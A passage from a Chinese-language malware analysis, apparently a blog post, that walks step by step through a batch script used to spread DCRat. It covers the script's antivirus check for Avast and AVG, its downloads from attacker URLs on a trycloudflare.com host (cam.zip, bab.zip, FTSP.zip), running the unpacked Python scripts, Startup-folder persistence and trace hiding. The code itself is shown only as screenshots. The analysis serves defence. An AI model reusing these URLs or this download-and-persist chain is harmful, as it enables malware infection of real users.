* 若找到一个 PDF 文件，则使用 start 命令打开；
* 若未找到 PDF 文件，则输出提示并跳过此步骤；

相关代码截图如下：



### 检测杀毒软件

bat批处理脚本运行后，将：

* 使用 tasklist 和 find 命令检查系统中是否运行 AvastUI.exe（Avast 杀毒软件）进程或 avgui.exe（AVG 杀毒软件）进程；
* 若检测到杀毒软件，则配置外联下载地址为：`https://nl-theatre-saver-impact.trycloudflare.com/cam.zip`；
* 若未检测到杀毒软件，则配置外联下载地址为：`https://nl-theatre-saver-impact.trycloudflare.com/bab.zip`；

相关代码截图如下：



### 下载并解压ZIP文件

bat批处理脚本运行后，将：

* 从指定的 URL下载文件到 %USERPROFILE%\Downloads\downloaded.zip路径；
* 使用 PowerShell 的 Invoke-WebRequest 命令执行下载，并启用 TLS 1.2 协议；
* 若下载失败，则输出错误并退出脚本；
* 若下载成功，则使用 Expand-Archive 将 ZIP 文件解压到 %USERPROFILE%\Downloads\Extracted路径；
* 若解压失败，则退出脚本；

相关代码截图如下：



### 执行 Python 脚本

bat批处理脚本运行后，将：

* 切换到解压后的目录 %USERPROFILE%\Downloads\Extracted\Python\Python312；
* 依次运行以下 Python 脚本：

* t2rf-an.py
* t2rf-as.py
* t2rf-hv.py
* t2rf-ve.py
* t2rf-xw3.py
* t2rf-xw5.py
* t2rf-ph.py

* **上述py脚本即为笔者在前面《深度剖析：利用Python 3.12.x二进制文件与多阶段Shellcode的DCRat 传播技术》文章中剖析的PYC样本；**

相关代码截图如下：



### 下载并设置启动项

bat批处理脚本运行后，将：

* 外联下载多个文件：startupppp.bat、PWS.vbs、PWS1.vbs
* 将文件移动到启动目录%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup中，用以实现自启动功能；

相关代码截图如下：



### 下载并解压 FTSP.zip

bat批处理脚本运行后，将：

* 从 `https://nl-theatre-saver-impact.trycloudflare.com/FTSP.zip` 地址外联下载 FTSP.zip 到 %USERPROFILE%\Downloads\FTSP.zip路径；
* 解压FTSP.zip文件到 %USERPROFILE%\Downloads路径；
* 删除下载的 downloaded.zip 和 FTSP.zip 文件；
* 将%USERPROFILE%\Downloads\Print 和 %USERPROFILE%\Downloads\Extracted 目录设置为隐藏属性；
* 使用 endlocal 清除局部变量，退出脚本；

相关代码截图如下：


